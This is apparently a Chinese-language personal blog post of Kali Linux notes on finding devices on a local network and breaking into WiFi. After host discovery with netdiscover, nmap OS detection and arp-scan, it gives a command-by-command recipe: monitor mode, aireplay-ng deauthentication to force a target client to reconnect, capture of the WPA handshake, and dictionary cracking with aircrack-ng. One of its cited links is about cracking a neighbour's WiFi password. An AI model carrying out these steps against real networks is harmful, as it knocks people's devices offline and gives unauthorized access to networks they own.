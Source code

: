 ```yaml
---
layout: post
title: 发现局域网中的路由器设备
categories: [cm, network]
tags: [kali, netdiscover]
---
```


* 参考： 
  * [Use & Abuse the Address Resolution Protocol (ARP) to Locate Hosts on a Network ](https://null-byte.wonderhowto.com/how-to/use-abuse-address-resolution-protocol-arp-locate-hosts-network-0150333/)
  * [Netdiscover – simple ARP Scanner to scan for live hosts in a network](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/)
  * [OS Detection - Chapter 15. Nmap Reference Guide](https://nmap.org/book/man-os-detection.html)
  * [Chapter 8. Remote OS Detection](https://nmap.org/book/osdetect-usage.html)
  * [How To Know Victim Operating System – Scanning Using Nmap](https://www.hacking-tutorial.com/hacking-tutorial/how-to-know-victim-operating-system-scanning-using-nmap/#sthash.2eHBbT9h.dpbs)
  * [Use arp-scan to find hidden devices in your network](https://www.blackmoreops.com/2015/12/31/use-arp-scan-to-find-hidden-devices-in-your-network/)
  * [How to Hack WiFi Password Easily Using New Attack On WPA/WPA2](https://thehackernews.com/2018/08/how-to-hack-wifi-password.html)
  * []()
  * []()
  * []()
  * []()


## 已经在局域网中

### netdiscover

~~~
netdiscover -r 192.168.1.1/24 -PN
~~~

### nmap

~~~
# 不如 netdiscover 显示清晰
nmap -sn 192.168.1.0/24
~~~


~~~
# 可以探测OS版本（部分识别，windows基本能认出来）
# -O (Enable OS detection) Enables OS detection
nmap -v -O 192.168.1.101


# mint 19.1 无法认出来： Too many fingerprints match this host to give specific OS details.
# 使用如下命令，能在fingerprint看到 pc-linux-gnu 字样。
nmap -O -sV -T4 -d <target>
~~~

### arp-scan

~~~
arp-scan --interface=eth0 --localnet
~~~



## WLAN

### 找到隐藏的ESSID

* 参考
  * [Discover hidden wireless SSID network using kali linux](https://www.linux.com/forums/small-talk/discover-hidden-wireless-ssid-network-using-kali-linux)
  * [How to get clients mac address for aireplay-ng](https://security.stackexchange.com/questions/146362/how-to-get-clients-mac-address-for-aireplay-ng)
  * [Discover Hidden WiFi SSIDs with aircrack-ng](https://linuxconfig.org/discover-hidden-wifi-ssids-with-aircrack-ng)
  * []()
  * []()

~~~
# 查看无线网卡接口名称，一般是 wlan0 ，或 wlan0mon
iwconfig

# put the wireless interface into monitor mode
airmon-ng start wlan0mon

# dump 中找到可能的目标wifi，ESSID 一列一般显示 <length: 数字>
# 记录下 BSSID 和 CH（channel）
airodump-ng wlan0mon

# airodump 针对 刚刚找到的 BSSID 为目标
# 例如，BSSID = BC:F6:85:BF:4F:70 ， CH = 7
airodump-ng -c 7 --bssid BC:F6:85:BF:4F:70 -w psk wlan0mon

# 另外打开一个 terminal 窗口，执行如下命令，让已经连接的设备端口重连，
# 就能获取 ESSID 信息啦（回到airodump 的terminal 去看）
# -0 = Attack mode 30= de-authentication (The number of deauth packets.) 
# -a = Target access point mac address 
# 
aireplay-ng -0 30 -a BC:F6:85:BF:4F:70 wlan0mon
~~~


### 破解wifi

* 参考
  * <https://github.com/brannondorsey/wifi-cracking>
  * <https://github.com/conwnet/wpa-dictionary>
  * [用Hashcat每秒计算1.4亿个密码，破解隔壁WIFI密码](https://www.cnblogs.com/diligenceday/p/6359661.html)
  * [aircrack & hashcat 非字典高速破解目标无线密码](https://klionsec.github.io/2015/04/14/aircrack-hascat/#menu)
  * [知乎 - 用aircrack-ng破解 wifi 密码](https://zhuanlan.zhihu.com/p/34829252)
  * [Easily Assessing Wireless Networks with Kali Linux](https://blog.rapid7.com/2013/05/22/easily-assessing-wireless-networks-with-kali-linux/)
  * [How to Hack WPA/WPA2 WiFi with Kali Linux](https://www.wikihow.com/Hack-WPA/WPA2-Wi-Fi-with-Kali-Linux)
    * **很详细，从kali安装开始，多图预警**
  * [How To Hack WPA/WPA2 Wi-Fi With Kali Linux & Aircrack-ng](http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html)
  * [How to Hack WiFi Password Easily Using New Attack On WPA/WPA2](https://thehackernews.com/2018/08/how-to-hack-wifi-password.html)
  * []()


#### 截获登录wifi的4次握手包信息(.cap文件）

~~~
# 看下是 Managed 还是 monitor 模式
iwconfig

# 从Managed 模式，转为 monitor
# 可能不成功，按提示，可能要kill掉一些进程后重试，执行：
# airmon-ng check kill
airmon-ng start wlan0mon
# 或者，airmon-ng start wlan0** ，不太确定

# 开始搜索周围wifi信息，保存搜索日志到当前目录 wifis 前缀的文件中
# -M ： 打印 Manufacture信息
# 从中找到目标wifi等BSSID，例如，78:11:DC:10:4F:66
airodump-ng wlan0 -w wifis -M

# airodump 针对 刚刚找到的 BSSID 为目标
# 例如，BSSID = 78:11:DC:10:4F:66 ， CH = 7
# 从结果中找到 STATION 的 MAC 地址，例如：6C:88:14:F2:47:8C
airodump-ng -c 7 --bssid 78:11:DC:10:4F:66 -w psk wlan0mon

# 【另开一个terminal】
# 用 aireplay-ng 让目标Station断线重连，
# 在 airodump-ng 的terminal 窗口就能捕获 "WPA handshake"
# 在磁盘中找到对应的 cap 数据包，接下来用 aircrack-ng 或者 hashcat进行离线破解
aireplay-ng -0 20 -c 6C:88:14:F2:47:8C -a 78:11:DC:10:4F:66 wlan0mon

# 无线网卡退出 Monitor 模式
airmon-ng stop wlan0mon
~~~


#### 破解cap

##### aircrack-ng

~~~
aircrack-ng -w [字典-path] [破解的目标握手包-path]
~~~

~~~
aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/Desktop/*.cap

-a is the method aircrack will use to crack the handshake, 2=WPA method.
-b stands for bssid, replace [router bssid] with the BSSID of the target router, mine is 00:14:BF:E0:E8:D5.
-w stands for wordlist, replace [path to wordlist] with the path to a wordlist that you have downloaded. I have a wordlist called “wpa.txt” in the root folder.
/root/Desktop/*.cap is the path to the .cap file containing the password. The * means wild card in Linux, and since I’m assuming that there are no other .cap files on your Desktop, this should work fine the way it is.
~~~

~~~
aircrack-ng –a2 –b 00:14:BF:E0:E8:D5 –w /root/wpa.txt  /root/Desktop/*.cap
~~~

## 技巧

### airodump-ng 超过一屏被截断

参考： <https://www.linuxquestions.org/questions/linux-newbie-8/how-to-see-all-lines-in-the-terminal-window-4175457226/>

使用 `-w` 参数指定日志文件前缀，每次运行就会在当前目录生成日志文件。

































